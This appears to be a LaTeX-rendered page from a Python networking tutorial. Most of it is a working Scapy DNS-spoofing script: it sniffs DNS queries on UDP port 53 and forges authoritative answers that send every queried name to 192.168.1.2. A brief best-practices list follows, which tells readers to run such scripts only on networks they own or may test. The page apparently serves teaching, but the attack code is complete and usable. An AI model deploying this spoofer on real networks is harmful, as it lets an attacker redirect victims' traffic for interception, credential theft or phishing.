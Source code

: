 \documentclass[
  letterpaper,
  DIV=11,
  numbers=noendperiod]{scrreprt}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.68,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.13,0.47,0.30}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.07,0.07,0.07}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}\usepackage{longtable,booktabs,array}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ dns\_spoof(pkt):}
    \ControlFlowTok{if}\NormalTok{ pkt.haslayer(DNS) }\KeywordTok{and}\NormalTok{ pkt.getlayer(DNS).qr }\OperatorTok{==} \DecValTok{0}\NormalTok{:}
\NormalTok{        spoofed\_pkt }\OperatorTok{=}\NormalTok{ IP(dst}\OperatorTok{=}\NormalTok{pkt[IP].src, src}\OperatorTok{=}\NormalTok{pkt[IP].dst) }\OperatorTok{/} \OperatorTok{\textbackslash{}}
\NormalTok{                      UDP(dport}\OperatorTok{=}\NormalTok{pkt[UDP].sport, sport}\OperatorTok{=}\DecValTok{53}\NormalTok{) }\OperatorTok{/} \OperatorTok{\textbackslash{}}
\NormalTok{                      DNS(}\BuiltInTok{id}\OperatorTok{=}\NormalTok{pkt[DNS].}\BuiltInTok{id}\NormalTok{, qr}\OperatorTok{=}\DecValTok{1}\NormalTok{, aa}\OperatorTok{=}\DecValTok{1}\NormalTok{, qd}\OperatorTok{=}\NormalTok{pkt[DNS].qd, an}\OperatorTok{=}\NormalTok{DNSRR(rrname}\OperatorTok{=}\NormalTok{pkt[DNS].qd.qname, ttl}\OperatorTok{=}\DecValTok{10}\NormalTok{, rdata}\OperatorTok{=}\StringTok{"192.168.1.2"}\NormalTok{))}
\NormalTok{        send(spoofed\_pkt, verbose}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

\NormalTok{sniff(}\BuiltInTok{filter}\OperatorTok{=}\StringTok{"udp port 53"}\NormalTok{, prn}\OperatorTok{=}\NormalTok{dns\_spoof)}
\end{Highlighting}
\end{Shaded}

\section{Best Practices}\label{best-practices-2}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  \textbf{Error Handling}: Always include error handling to manage
  unexpected conditions gracefully.
\item
  \textbf{Resource Management}: Ensure resources, such as sockets and
  files, are properly managed and closed.
\item
  \textbf{Security}: Be mindful of security implications, such as
  running sniffing or spoofing scripts, and only use them on networks
  you own or have permission to test.
\item
  \textbf{Documentation}: Document your code to make it easier to
  understand and maintain.
\item
  \textbf{Performance}: Optimize your code for performance, especially
  when dealing with high volumes of network traffic.
\end{enumerate}
\end{document}
